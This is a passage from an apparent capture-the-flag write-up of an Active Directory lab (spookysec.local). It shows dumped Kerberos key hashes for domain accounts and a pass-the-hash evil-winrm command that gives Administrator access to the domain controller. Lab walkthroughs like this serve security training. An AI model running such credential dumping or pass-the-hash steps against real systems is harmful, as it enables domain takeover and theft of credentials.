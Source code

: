 spookysec.local\\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:d51d962e37fc1bdc8202110b7b01dd4c6181e097c66e1002869f126f001b7616
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:a853045f32cc1784926422d237f16d0a
ATTACKTIVEDIREC$:des-cbc-md5:7caee9a88f8f32e6
\[\*\] Cleaning up...

We got the Administrators hash!

Now, all we have to do is pass the hash using Evil-WinRm to get root access to the domain controller.

evil-winrm -H 0e0363213e\*\*\*\*\*\*\*\*\*\*0bcb4fc -i 10.10.85.196 -u Administrator

[![](images/image-38-1015x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-38.png)

With admin access, we can see capture all the flags!
